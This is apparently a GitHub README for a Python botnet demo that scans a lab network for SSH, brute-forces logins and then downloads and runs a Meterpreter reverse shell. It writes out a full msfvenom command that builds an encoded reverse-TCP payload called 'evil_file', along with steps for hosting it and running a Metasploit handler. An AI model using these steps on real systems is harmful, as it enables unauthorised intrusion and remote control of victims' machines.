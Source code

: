 # fresh_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" file scans virtual network. If it finds a node with ssh<br>
service it then performs a dictionary attack. If successful, script will<br>
attmept to download a meterpreter reverse shell payload and execute it.<br>
Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
3. Create Web Server & host payload: <h4>192.168.203.1/evil_file</h4>
4. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
5. Run metasploit hander: msf5 > use exploit/multi/handler module<br>
<br>
6. Atteck/Exploit<br>
<br>
7. Run scan_drop.py on target
